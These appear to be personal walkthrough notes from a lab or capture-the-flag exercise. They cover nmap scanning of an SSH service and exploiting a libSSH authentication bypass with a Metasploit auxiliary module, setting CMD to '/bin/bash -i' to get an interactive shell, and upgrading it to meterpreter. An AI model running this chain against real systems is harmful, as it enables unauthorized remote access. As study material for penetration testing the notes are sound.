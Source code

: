 - nmap 
- got a ssh port open with version 2.0 (i need more info)
- look for auxuliray modules to scan the ssh version 
- got  version , look for exploit 
- found # libSSH - Authentication Bypass exploit
- metasploit search and found it 
- auxiliary(scanner/ssh/libssh_auth_bypass
- setup CMD to open /bin/bash -i  + rhosts etc 
- set SPAWN_pty true to open terminal session 
- run
- sessions -i 1 (to enter session, starting interactive)

- we can upgrade to meterpreter
	- shell_to_meterpreter
